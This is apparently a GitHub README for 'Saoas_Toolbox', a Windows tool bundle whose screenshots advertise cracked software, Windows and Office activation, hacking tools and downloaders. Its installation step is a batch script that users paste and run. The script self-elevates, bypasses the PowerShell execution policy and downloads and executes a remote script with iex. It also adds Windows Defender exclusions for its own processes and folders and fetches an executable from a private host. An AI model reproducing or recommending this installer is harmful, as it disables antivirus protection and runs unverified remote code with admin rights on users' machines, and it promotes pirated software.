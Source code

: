# Saoas_Toolbox
 - **Installation:**
   - Copy the following Code into an Text Document and save as .cmd File, then Start the file.
   - or Download [THIS FILE](https://github.com/SaoasBlubb/Saoas_Toolbox/releases/download/latest/Saoas_Toolbox.cmd) and Start the file.
```
@echo off & setlocal
net session >NUL 2>&1 && goto :ELEVATED
set ELEVATE_CMDLINE=cd /d "%~dp0" ^& "%~f0" %*
powershell.exe -noprofile -c Start-Process -Verb RunAs cmd.exe \"/c $env:ELEVATE_CMDLINE\"
exit /b %ERRORLEVEL%
:ELEVATED

set "psCommand=Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://files.saoas.tv/path.ps1'))"

mkdir "%USERPROFILE%\Desktop\Saoas_Tools"
mkdir "C:\Saoas"

powershell -NoLogo -Sta -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command "& {%psCommand%}"
powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force
powershell -Command Add-MpPreference -ExclusionProcess "Installer.exe" -Force
powershell -Command Add-MpPreference -ExclusionProcess "Multi_Downloader.exe" -Force
powershell -Command Add-MpPreference -ExclusionPath "%USERPROFILE%\Desktop\Saoas_Tools" -Force
powershell -Command Add-MpPreference -ExclusionPath "C:\Saoas" -Force

cd "%USERPROFILE%\Desktop\Saoas_Tools"
powershell Invoke-WebRequest -Uri "https://eternallybored.org/misc/wget/1.21.4/64/wget.exe" -OutFile "wget.exe"
xcopy %USERPROFILE%\Desktop\Saoas_Tools\wget.exe C:\Saoas /y
wget -q --show-progress --user-agent="chrome" --no-hsts https://files.saoas.tv/Toolbox/Saoas_Toolbox.exe -O Saoas_Toolbox.exe
del %USERPROFILE%\Desktop\Saoas_Tools\wget.exe
move %USERPROFILE%\Desktop\Saoas_Tools\Saoas_Toolbox.exe %USERPROFILE%\Desktop

```

#####

# TOOLBOX PICTURES:

![PAcket_Managers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e4dd290c-0853-47aa-9269-42878cd199d8)
![Cracked_Files_Main_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/bc08218b-c0b8-499c-95ab-5d840495f47b)
![Cracked_Files_Main_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/3b22f508-e915-4e02-aae8-e1c41a6e0221)
![Cracked_Files_Main_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c7ea0603-dad6-4b3d-be20-b63ebc97e14f)
![Office_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/52afce7d-89ce-4b4a-a632-934fedcb3c56)
![Windows_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c1ab1ab5-f8c8-41a8-b415-7b937fd8eab9)
![Windows_Tweaks_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/788077a0-f5eb-416c-b001-4276efbd0add)
![Windows_Tweaks_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e0b14c7c-8276-42fc-8d63-3e744cf3c1e9)
![Windows_Tweaks_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/748ee5bb-546a-4dd5-97c7-741d182d80ef)
![Windows_Context_Tweaks_Menu_4of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1555e886-3a02-461c-b23a-53ec00a88374)
![Windows_Context_Tweaks_Menu_3of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e277a2f9-0e21-4ddf-958c-4792f08d82df)
![Windows_Context_Tweaks_Menu_2of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/92e58e4c-c74c-4f8c-8472-4b3bc3123a13)
![Windows_Context_Tweaks_Menu_1of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ce7353f3-3e36-4227-80d4-c0890d32ae8b)
![Windows_Tweaks_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/8767eeca-1ec9-4792-9e10-f90ca370ade3)
![Internet_Browsers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/44f7c0d2-2a27-4f9d-8a35-4c8f577649f7)
![Hacking_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/055404e6-9911-4fc4-af6b-9025ddad232b)
![Programs_Menu_2of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/6eb46d6b-eaf0-472b-a018-354eeaa40806)
![Programs_Menu_1of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/01cf5411-e444-4158-b0c4-672fe9b9b2e3)
![Programs_and_Hacking_tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/7ee83d03-7b56-4232-b271-2b3b0f132947)
![Runtimes_Frameworks_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/15dbc0b4-67f8-4b40-bec9-151c1b4f5c0b)
![Saoas_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/9f8b618e-0b44-4e1e-824b-1f53b3fe3cda)
![Toolbox_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/06704b2a-1807-42c2-926e-1fc8c6b697ad)


# MULTIDOWNLOADER PICTURES:

![Website_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/70b56c69-4474-47a8-a19c-91a09977322d)
![SoundCloud_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/449c221d-06bb-41f3-9ea0-4c4d80361fdf)
![Spotify_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/abc92b92-ac9d-436f-a19d-74a64e22e28e)
![YouTube_Video_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a683921a-2403-4a60-afa9-d95e6d8dc67a)
![YouTube_Audio_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/88dcdea1-7916-4882-b283-7e4ac516ac3f)
![YouTube_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1fc38cca-9fb9-4bad-8e56-324f0fb9d3e2)
![Multi_Downloader_MAin_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/68e84a22-da58-4a9a-b7d4-259c3205b72d)
![Multi_Downloader_Update_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b9a7783d-2eaf-4463-9faf-f163ae49e2a7)
